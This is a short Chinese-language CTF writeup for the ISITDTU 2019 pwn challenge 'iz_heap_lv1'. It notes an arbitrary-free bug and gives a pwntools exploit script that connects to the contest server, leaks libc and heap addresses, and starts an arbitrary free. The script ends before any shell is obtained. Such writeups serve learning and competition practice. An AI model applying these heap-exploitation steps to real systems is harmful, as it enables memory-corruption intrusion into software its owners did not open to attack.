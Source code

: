 ```yaml
---
title: ISITDTU
date: 2019-07-02 21:56:26
tags: writeup
---
```


周末的时候混了几题pwn最后一题看上去就挺麻烦没时间搞.

# Binary
[binary][1]
# iz_heap_lv1
...一开始看了一遍没找到洞...
这个漏洞脑洞也够大..看了好几遍才发现.
任意free和lv2一样的漏洞点没什么好说的直接搞就行了.
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": \n",str(c))
def name(n):
	p.sendafter(": ",n)
def add(size,c):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
def free(idx):
	cmd(3)
	p.sendlineafter(": ",str(idx))
def edit(idx,size,c):
	cmd(2)
	p.sendlineafter(": ",str(idx))
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
def show(n="n132",flag="N"):
	cmd(4)
	p.sendlineafter(")",str(flag))
	if flag=='Y':
		p.sendafter(": ",n)
def index(add):
	return (add-0x000000000602060)/8
libc=ELF("./libc.so.6")
#
#p=process('./iz_heap_lv1',env={"LD_PRELOAD":"./libc.so.6"})
p=remote("165.22.110.249",3333)
name("\x00"*8)
edit(20,0x300000,"n132")
show()
p.readuntil("Name: ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x00007ff681b04010-0x00007ff681e05000)
log.warning(hex(base))

edit(20,0x18,'n132')
show()
p.readuntil("Name: ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-0x260
log.warning(hex(heap))

libc.address=base
edit(0,0x18,p64(heap+0x260))
free(index(heap+0x260+0x20))
```

[1]: https://github.com/n132/WriteUps/tree/master/2019_ISITDTU